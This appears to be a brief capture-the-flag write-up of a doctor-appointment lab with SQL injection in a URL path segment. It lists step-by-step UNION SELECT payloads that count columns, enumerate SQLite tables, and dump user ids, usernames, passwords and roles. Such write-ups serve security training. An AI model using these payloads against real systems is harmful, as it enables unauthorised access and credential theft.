

Daily challenge.
Hint: *SQLi in the path? No way...*

This is a simple lab, where you can request an appointment to a doctor.
The lab has SQLi vulnerability in the path: `POST /api/appointments/6'/cancel` after adding the apostrophe to the appointment id, the response contains an error: `"unrecognized token: \"'\""`. This indicates that this is the point of injection. 
After sending a payload: `/api/appointments/0 UNION SELECT 1-- -/cancel` I got the response: `SELECTs to the left and right of UNION do not have the same number of result columns`, now i need to match column number.
The final payload: `0 UNION SELECT 1,2,3,4,5,6,7-- -`, indicates that there is seven columns, because the response is different this time and says *Forbidden*.
Step by step exfiltration:
- `0 UNION SELECT 'a','b','c','d','e','f','g'--` - To check reflection.
- `0 UNION SELECT 1,(SELECT group_concat(name) FROM sqlite_master WHERE type='table'),5,4,5,6,7--` - The first integer after brackets must equal your patient id, otherwise you get forbidden in the response.
- `0 UNION SELECT 1,(SELECT group_concat(name) FROM pragma_table_info('users')),5,4,5,6,7--`
- `0 UNION SELECT 1,(SELECT group_concat(id||':'||username||':'||password||':'||role||':'||full_name,';') FROM users),5,4,5,6,7--`

After sending the last payload there is a flag in the response.
